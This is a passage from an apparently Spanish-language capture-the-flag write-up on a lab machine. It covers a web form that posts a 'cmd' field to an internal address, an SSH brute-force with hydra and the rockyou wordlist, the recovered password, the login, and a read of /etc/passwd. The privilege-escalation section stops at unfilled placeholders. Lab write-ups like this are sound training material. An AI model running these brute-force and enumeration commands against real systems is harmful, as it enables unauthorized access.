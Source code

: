 La web reacciona cambiando el valor: **Ingrese una URL** a **Busca un producto ilegal** lo que me hace pensar que tenemos una **subred** a la que podriamos acceder solo si ganamos acceso a el target **dark1**
Ya que ahora mirando el codigo fuente ahora refleja esa direccion **IP** a la que no podemos accder
```html
<h1>webilegal.com</h1>
    <form action="[http://20.20.20.3/process.php](view-source:http://20.20.20.3/process.php)" method="post">
        <label for="cmd">Busca un producto ilegal</label><br>
        <input type="text" id="cmd" name="cmd"><br>
    <input type="submit" value="Enviar">
</form>
```

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Realizaremos un ataque de fuerza bruta por **ssh** para el usuario **toni**
### Ejecucion del Ataque
```bash
# Comandos para explotación
hydra -l toni -P /usr/share/wordlists/rockyou.txt -f ssh://10.10.10.2
```

Tenemos las credenciales validad para este usuario **toni**
```bash
[22][ssh] host: 10.10.10.2   login: toni   password: banana
```
### Intrusion
```bash
# Reverse shell o acceso inicial
ssh-keygen -R 10.10.10.2 && ssh toni@10.10.10.2 # ( banana )
```

---
## Escalada de Privilegios
### Enumeracion del Sistema
Listando los usuarios del sistema 
```bash
# Comandos clave ejecutados
cat /etc/passwd | grep "sh"

root:x:0:0:root:/root:/bin/bash
toni:x:1000:1000:,,,:/home/toni:/bin/bash
```

**Hallazgos Clave:**
- Binario con privilegios: `[Binario]`
- Credenciales de usuario: `[Usuario]:[Contraseña]`
### Explotacion de Privilegios
